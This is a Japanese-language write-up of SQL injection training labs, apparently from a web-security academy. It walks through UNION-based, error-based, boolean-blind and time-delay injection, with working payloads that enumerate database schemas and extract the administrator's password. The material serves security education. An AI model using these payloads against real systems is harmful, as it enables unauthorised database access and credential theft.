

# SQL injection writeup
- [SQL injection writeup](#sql-injection-writeup)
  - [****SQL injection UNION attack, finding a column containing text****](#sql-injection-unionattack-finding-a-column-containing-text)
    - [Goal](#goal)
    - [analyze](#analyze)
    - [Exploit](#exploit)
  - [****SQL injection UNION attack, retrieving data from other tables****](#sql-injection-unionattack-retrieving-data-from-other-tables)
    - [Goal](#goal-1)
    - [Analyze](#analyze-1)
    - [Exploit](#exploit-1)
  - [****SQL injection attack, querying the database type and version on Oracle****](#sql-injection-attack-querying-the-database-type-and-version-on-oracle)
    - [Goal](#goal-2)
    - [Analyze](#analyze-2)
    - [Exploit](#exploit-2)
  - [****SQL injection attack, querying the database type and version on MySQL and Microsoft****](#sql-injection-attack-querying-the-database-type-and-version-on-mysql-and-microsoft)
    - [goal](#goal-3)
    - [Analyze](#analyze-3)
    - [Exploit](#exploit-3)
  - [****SQL injection attack, listing the database contents on non-Oracle databases****](#sql-injection-attack-listing-the-database-contents-on-non-oracle-databases)
    - [Goal](#goal-4)
    - [Analyze](#analyze-4)
    - [Exploit](#exploit-4)
  - [****SQL injection attack, listing the database contents on Oracle****](#sql-injection-attack-listing-the-database-contents-on-oracle)
    - [goal](#goal-5)
    - [analyze](#analyze-5)
    - [expoit](#expoit)
  - [****SQL injection UNION attack, retrieving multiple values in a single column****](#sql-injection-unionattack-retrieving-multiple-values-in-a-single-column)
    - [goal](#goal-6)
    - [Analyze](#analyze-6)
    - [Exploit](#exploit-5)
  - [Blind SQL injection with conditiaonal responses](#blind-sql-injection-with-conditiaonal-responses)
    - [Goal](#goal-7)
    - [Analyze](#analyze-7)
    - [Exploit](#exploit-6)
  - [Visible error-based SQL injection](#visible-error-based-sql-injection)
    - [Goal](#goal-8)
    - [Analyze](#analyze-8)
    - [Exploit](#exploit-7)
  - [Blind SQL injection with time delays](#blind-sql-injection-with-time-delays)
  - [Goal](#goal-9)
  - [Analyze \& Exploit](#analyze--exploit)
  - [Blind SQL injection with time delays and information retrieval](#blind-sql-injection-with-time-delays-and-information-retrieval)
    - [Goal](#goal-10)
    - [Analyze](#analyze-9)
    - [Exploit](#exploit-8)

## ****SQL injection UNION attack, finding a column containing text****
---
### Goal

union attackによりランダムな文字列を出力させる

### analyze

`'` を入れた時と`’’` を入れたときの反応が違うことからSQL injectionがある可能性が高まります。

また、`Pets' union select null -- —` , `Pets' union select null, null -- --` を入れたときは500 Errorですが、 `Pets' union select null, null, null -- --` を入れた時は200 OKの段階でSQL injectionがあることが確定します。

### Exploit

まずSQL injectionがあること、union Attackが使えることがわかっているので、あとはやるだけですが、Union Attackを決めるには返却する型を確かめる必要があります。

返却カラムは、`Pets' union select null, null, null -- --` により3つであることがわかっています。

あとは、nullに `'a'`, `1` のように文字・数値を入れて反応を見るだけです。

結果として、`Pets' union select null, 'a', null -- —` が200 OKとなるので、あとはやるだけです。

```python
Pets' union select null, 'GhyC8w', null -- --
```

## ****SQL injection UNION attack, retrieving data from other tables****

---

### Goal

usersデータベースがあり、カラムとしてusername, passwordがあり、SQLiで、administratorのパスワードを取得、ログインする

### Analyze

**`SQL injection UNION attack, finding a column containing text`で見たのと同じような箇所に同じような方式で見つけることができます。**

前回のラボと違う点で言えば、`Tech gifts' union select null, null -- —` このペイロードでわかりますが、返却カラムが2であることです。

### Exploit

data型の判別だけしておきます。

```python
Tech gifts' union select 'a', 'a' -- --
```

上記は200 OKが返るためどちらもcharであることがわかりました。

あとはdatabaseからadministratorを抜いてくるだけです。

```python
Tech gifts' union select username, password from users where username='administrator' -- --
```

コレにより、administratorのpasswordを取得することができます。

## ****SQL injection attack, querying the database type and version on Oracle****

---

### Goal

Oracle DBのバージョンを抜けば良さそうです。

### Analyze

SQL injectionの存在は、**`SQL injection UNION attack, finding a column containing text`で見たのと同じような箇所に同じような方式で見つけることができます。**

Oracle DBは何かを参照する際、tableが必要になることに注意しなければなりません。

このときに使えるのが `dual` テーブルです。

下記ペイロードのみ200 OKなので返却されるカラム数は2であることがわかります

```python
Pets' union select null, null from dual-- --
```

### Exploit

いつもどおりdata型の判別だけしておきましょう。

下記ペイロードは200 OKのためすべてchar型であることがわかります。

```python
Pets' union select 'a', 'a' from dual-- --
```

では、Oracle DBのバージョン情報を除くための方法を調査しましょう。

```python
SELECT * FROM v$version;
```

コレで取得できるようですが、`*` でとってくることはできなさそうです。

ので、 `v$version` を覗いてみましょう。

https://docs.oracle.com/cd/E96517_01/refrn/V-VERSION.html#GUID-6CD1B31F-C0EF-45F9-9E7A-51E48D91A6DD

優しいね。日本語の資料がある。

`v$version`の `BANNER`のみを取れば良さそうです。

```sql
Pets' union select BANNER, null from v$version-- --
```

## ****SQL injection attack, querying the database type and version on MySQL and Microsoft****

---

### goal

今回も前回同様versionを抜き取れば良さそうです。

### Analyze

**`SQL injection UNION attack, finding a column containing text`と脆弱性箇所などは同じです。**

また、 **`SQL injection attack, querying the database type and version on Oracle` と返却カラム数は同じです。**

```sql
Gifts' union select 'a', 'a' -- --
```

### Exploit

MySQLを使用していることがわかってしまっているのであとはやるだけです。

以下を利用してMySQLではversionを取得することができます。

```sql
select version()
```

これを先程のPoCに組み込むだけです。

```sql
Gifts' union select version(), 'a' -- --
```

## ****SQL injection attack, listing the database contents on non-Oracle databases****

---

### Goal

データベースからパスワードを抜き去って、administratorでログインする

### Analyze

`'`, `''` で挙動作差があり、`Pets' union select null, -- —`, `Pets' union select null, null, null --` がエラーとなり、 `Pets' union select null, null -- --` はエラーとならないためSQL injectionがありそうです。

また、返却カラム数は2であることも、`union Attack`によりわかっています

### Exploit

union attackが可能なのでデータ型の特定をしておきます。

```sql
Pets' union select 'a', 'a' -- --
```

上記の結果が200 OKのためどちらも返却カラムはcharであることがわかりました。

次に、データベースの取得を行います。

```sql
Pets' union select version(), 'a' -- --
```

上記により、Postgresqlを使用していることがわかりました。

Postgresqlでは、 `information_schema.tables` ですべてのテーブルを列挙することができるようです。

```sql
Pets' union select table_name, 'a' from information_schema.tables -- --
```

`users_xkfgvg` というテーブルがあることがわかりました。

次にusers….Tableのカラム名を割り出します。

あるテーブルのカラムを取得する場合は、

```sql
SELECT *
  FROM information_schema.columns
 WHERE table_schema = 'your_schema'
   AND table_name   = 'your_table'
     ;
```

このようにすれば良いそうです。

information_schema.columnsのカラムは以下のサイトで確認できます。

https://www.postgresql.jp/document/8.1/html/infoschema-columns.html

ではこれらの情報をもとにペイロードを組み立てuserx_xkfgvgテーブルからカラムを抜き出します。

```sql
Pets' union select column_name, 'a' from information_schema.columns where table_name='users_xkfgvg'-- --
```

コレにより `password_kjrsfl` , **`username_lswskh` というカラムがあることがわかりました。**

あとはやるだけです。

```sql
Pets' union select password_kjrsfl, username_lswskh from users_xkfgvg where username_lswskh = 'administrator'-- --
```

## ****SQL injection attack, listing the database contents on Oracle****

---

### goal

administratorとしてログインをする

### analyze

脆弱性の箇所は前回のラボと同じです。

`'`,  `''` で挙動に差があります。

また、`Pets ' union select null, null from dual-- —`  は200 OKですが、nullが1つ、3つのときは500 Errorなので返却カラムが2つであることもわかります。

### expoit

1. 返却カラムのデータ型の特定
    
    ```bash
    Pets ' union select 'a', 'a' from dual-- --
    ```
    
    - 200 OKのためどちらもcharであることがわかる

データ型が特定できたので以下の手順でラボをクリアします。

1. tableのダンプ
2. columnのダンプ
3. 取得したtable名・カラム名を使って終わり

tableのダンプです。

`all_tables` からtable_nameを指定して抜いてきます。

```bash
Pets ' union select table_name, 'a' from all_tables-- --
```

`USERS_JIZWKE` **というテーブル名を得ることができました。(多分これはラボによってランダム)**

columnのダンプ

https://docs.oracle.com/cd/B19306_01/server.102/b14237/statviews_2094.htm

`ALL_TAB_COLUMNS` が使えそうです。

```bash
Pets ' union select column_name, 'a' from all_tab_columns where table_name='USERS_JIZWKE'-- --
```

コレにより、`PASSWORD_LIHCST` , `USERNAME_SDIAIQ` カラムがあることがわかりました。

あとはやるだけです。

```bash
Pets ' union select PASSWORD_LIHCST, USERNAME_SDIAIQ from USERS_JIZWKE where USERNAME_SDIAIQ='administrator'-- --
```

## ****SQL injection UNION attack, retrieving multiple values in a single column****

---

### goal

administratorとしてログインする

### Analyze

脆弱性の箇所は前回のラボと同じで、返却カラム数も同じです。

### Exploit

data型の特定をしていきます。

```bash
Pets ' union select 1, 'a' -- --
```

上記結果が200 OKであることから、数値型と文字型が返却カラムであることがわかります。

今回はOracleではないことがわかっています(databaseなしでも望んだ結果が返ってきているため)

ですが、何データベースかはわかっていません。ので、特定をしていきます。

```bash
Pets ' union select 1, version() -- --
```

**`PostgreSQL 12.16 (Ubuntu 12.16-0ubuntu0.20.04.1) on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 9.4.0-1ubuntu1~20.04.1) 9.4.0, 64-bit`**

コレによりPostgresqlであることがわかりました。

データベース名がわかったので、Tableのdumpを行います。

```bash
Pets ' union select 1, table_name from information_schema.tables -- --
```

`users` テーブルがあることが上記payloadによってわかります。

テーブル名がわかったので、column名を取得します。

```bash
Pets ' union select 1, column_name from information_schema.columns where table_name='users'-- --
```

コレであとはやるだけの状況です。

```bash
Pets ' union select 1, password from users where username='administrator'-- --
```

上記payloadによって取得したパスワードを利用してログインすれば終わりです。

## Blind SQL injection with conditiaonal responses

### Goal
`administrator`としてログインをする

前提条件として、`users`テーブルがあり、TrackingIdを使ったqueryが成功すると`Welcome back`というメッセージが出てくる。

### Analyze

前回と違い、`'`, `''`でのreponseの違いはないが、`' and 1=1 -- --`, `' and 1=0 -- --`では違いがある。


Responseの違いを見てみると、`Welcome back!`が表示されているか否かであることがわかる。

つまりサブクエリでboolを返してあげると良さそう。

```sql
' and (select case when (1=0) then 1=1 else 1=0 end) -- --
' and (select case when (1=1) then 1=1 else 1=0 end) -- --
```

上記payloadを送った結果

- 1=0 => welcome back なし
- 1=1 => welcome back あり 

という結果になったため、OK

あとはやるだけ。

### Exploit

まずはpasswordの長さを調査する。

```sql
' and (select case when (length((select password from users where username='administrator')) = numbers) then 1=1 else 1=0 end) -- --
```

これでPayload Positionでターゲットをnumbersに指定し、0 ~ 30で指定してあげると20でWelcome back帰ってくることがわかるので、Passwordの長さがわかります。

最後にパスワードの列挙です。

```sql
' and (select case when (substring((select password from users where username = 'administrator'), pos, 1) = 'ascii') then 1=1 else 1=0 end) -- --
```

pos, ascii部分を指定し、Cluster bombを選択。

position 1をnumberで1 ~ 20, position 2はbruto forceでmax lengthを1に指定しぶん回して終わりです。

## Visible error-based SQL injection
### Goal
administratorとしてログインすればﾖｼ

### Analyze

今回はエラーメッセージが出てくれる素晴らしいラボです。


ただクエリの結果を表示してくれはしないので、Blind SQL injectionを行う必要があります。

と思い適当に入れていましたが、どうやらqueryの長さ制限がありそうな雰囲気を感じました。

実行されているqueryは以下なので、これをもとにいい感じに取得していきたい。

```text
SELECT * FROM tracking WHERE id = 'mF5dvvXhtsZ9QEya'
```

StackTraceが出てくる場合、Error MessageにQueryの結果を含ませることが可能な場合があります。

```qurey
' AND CAST((SELECT 'a') AS int)='1
```


これにより、castしようとしている値が出力されることがわかります。

### Exploit

[Analyze](#analyze-8)結果を利用することで、usersテーブルの探索が可能です。

```sql
' AND CAST((SELECT username from users limit 1) AS int)='1
```


limit 1の結果はadministratorが返ることがわかります。

つまり、`username`を`password`にしてあげれば良さそうです。



## Blind SQL injection with time delays

## Goal

10秒遅延を起こす。

## Analyze & Exploit

`TrackId`が脆弱な箇所です。

```sql
'||pg_sleep(10) -- 
```

これを入れるだけ。。。

## Blind SQL injection with time delays and information retrieval

### Goal

administratorとしてログインすれば良さそうです。

### Analyze

`trackId`に対して以下のペイロードで10秒ちょい遅延が発生するため脆弱性自体は特定できます。

```sql
RLp7SJP1WQbetJlb'||pg_sleep(10) -- -- 
```

特定ができたので後はやるだけです。


### Exploit

`passwordの長さ`
```sql
'||(select case when length(password) = $$ then pg_sleep(10) else pg_sleep(0) end from users)--
```


上記で、Numbersを使い1~20までIntruderでぶち込むことで、20がであることがわかったので次にパスワードの列挙です。

```sql
'||(select case when substring(password, §§, 1) = '§§' then pg_sleep(10) else pg_sleep(0) end from users where username='administrator')--
```


後は、Intruderの結果で10病の遅延が起きているものを使いログインすれば終わりです。
